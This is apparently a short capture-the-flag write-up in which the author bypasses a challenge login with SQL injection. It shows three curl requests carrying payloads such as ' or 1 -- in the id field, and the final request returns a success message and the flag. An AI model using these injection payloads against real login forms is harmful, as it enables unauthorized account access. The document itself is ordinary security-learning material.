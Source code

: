 ```yaml
---
created: 2024-06-11T01:17
updated: 2024-07-07T23:08
---
```


Seems like the usual SQL injection

## Try 1

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=admin" \
     --data-urlencode "pw=' or 1=1 --"
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083749/2024/06/77ff3c96de112411090d43bcc2c3c6f0.png)

Hrmm

## Try 2

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1=1 --" \
     --data-urlencode "pw="
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083749/2024/06/4c5ea675746c69118ca3c5b4c3730586.png)

## Try 3

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1 --" \
     --data-urlencode "pw="
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083750/2024/06/e785ec99d6acc52091341ee433906d6c.png)

```text
Login Success!
Flag is CDDC22{Th1s_i5_51mp1e_SQL_inj3ct10n}
```

erm, was this supposed to happen?
